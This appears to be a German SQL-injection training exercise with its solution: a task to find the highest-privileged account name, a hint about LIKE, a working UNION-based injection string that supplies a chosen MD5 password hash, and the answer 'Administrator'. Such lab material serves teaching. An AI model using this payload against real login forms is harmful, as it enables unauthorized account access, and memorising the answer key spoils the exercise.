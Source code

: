 Finden Sie den Nutzernamen des Accounts mit den höchsten Rechten heraus.

Tipp: Mit dem Schlüsselwort `LIKE` können Sie nach Mustern in Strings suchen.

Statement:
' AND 1=0 UNION SELECT (SELECT name FROM people WHERE name LIKE '_dmin%'), MD5('pass'), 1, 1;--

>>6) Geben Sie den gefundenen Nutzernamen an.<<
=== Administrator